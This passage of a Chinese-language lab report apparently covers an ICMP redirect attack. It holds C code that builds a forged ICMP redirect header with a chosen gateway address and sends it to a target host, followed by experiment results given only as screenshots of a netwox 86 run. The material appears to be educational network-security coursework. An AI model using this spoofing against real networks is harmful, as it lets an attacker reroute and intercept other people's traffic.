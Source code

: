    6. 手动填充icmp头部

      ```c
          //填充icmp头
          packet.icmp.type = ICMP_REDIRECT;      // Redirect
          packet.icmp.code = ICMP_REDIRECT_HOST; // Redrect for host
          packet.icmp.checksum = 0; //检校和
          packet.icmp.un.gateway = inet_addr(SOURCE_IP);
      ```

   7. 发送

      ```c
          //构造目的地址
      		struct sockaddr_in target;
          target.sin_family = AF_INET;
          target.sin_addr.s_addr = inet_addr(TARGET_IP);
          /** 
           * sendto 将数据由指定的socket传给对方主机
           * params: int s, const void * msg, int len, unsigned int flags, const struct sockaddr * to, int tolen
           * (发送端套接字描述符，&packet-数据内容，待发送数据长度IP头+ICMP头（8）+IP首部+IP前8字节，flag标志位，目的网络地址，地址长度）
           * return: -1/size
          **/
          sendto(sockfd, &packet, 56, 0, (struct sockaddr *)&target, sizeof(target));
      ```

## 实验结果

1. 实验一使用`netwox 86`发送ICMP重定向包，结果如下。

   1. source机发送命令如下

      ![image-20200614091559046](assets/image-20200614091559046.png)

   2. target上网情况如下

      ![image-20200614092129602](assets/image-20200614092129602.png)
